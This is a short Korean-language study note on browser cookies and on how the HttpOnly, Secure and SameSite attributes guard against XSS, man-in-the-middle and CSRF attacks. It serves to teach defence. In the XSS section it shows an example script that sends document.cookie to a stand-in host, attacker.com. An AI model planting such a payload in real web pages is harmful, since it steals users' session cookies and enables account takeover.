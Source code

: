 ## ✅ **1. 쿠키란?**

**쿠키(Cookie)** 는 **웹 브라우저에 저장되는 작은 데이터 조각**이다.  
서버와 클라이언트(브라우저) 간에 **상태를 유지하거나 사용자 정보를 저장**하는 데 사용된다.

---
## 🧠 **2. 쿠키의 보안 취약점**

### ⚠️ **7.1 XSS (Cross-Site Scripting)**
### ⚠️ **7.2 CSRF (Cross-Site Request Forgery)**
### ⚠️ **7.3 중간자 공격 (MITM)**

---
 ## 🍪**3.HttpOnly Secure 쿠키**
## ⚠️ **3.1 XSS (Cross-Site Scripting) 공격**

- **공격 방법:** 공격자가 웹 페이지에 **악성 JavaScript 코드를 삽입**한다.
- **목적:** JavaScript를 통해 `document.cookie`로 쿠키를 탈취한다.

**예시:**

```javascript
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

- **HttpOnly 쿠키는?**
    - JavaScript로 접근할 수 없기 때문에 `document.cookie`로 가져올 수 없다.

**✅ 결론:** **HttpOnly가 XSS 공격으로부터 안전합니다.**

---

## ⚠️ **3.2 중간자 공격 (Man-in-the-Middle, MITM)**

- **공격 방법:** HTTP로 전송되는 쿠키를 공격자가 가로챈다.
- **Secure 쿠키는?**
    - `Secure` 속성이 설정된 쿠키는 **HTTPS를 통해서만 전송**된다.
    - HTTP로 전송되지 않기 때문에 가로챌 수 없습니다.

**✅ 결론:** **Secure가 MITM 공격으로부터 안전합니다.**

---

## ⚠️ **3.3 CSRF (Cross-Site Request Forgery)**

- **공격 방법:** 사용자가 로그인한 상태에서 악성 웹 사이트가 요청을 자동으로 보낸다.
- **SameSite 쿠키는?**
    - `SameSite=Strict`: 다른 도메인에서는 쿠키를 보내지 않는다.
    - `SameSite=Lax`: 외부 링크 클릭 시만 쿠키 전송.

**✅ 결론:** **SameSite가 CSRF 공격으로부터 안전하다.**
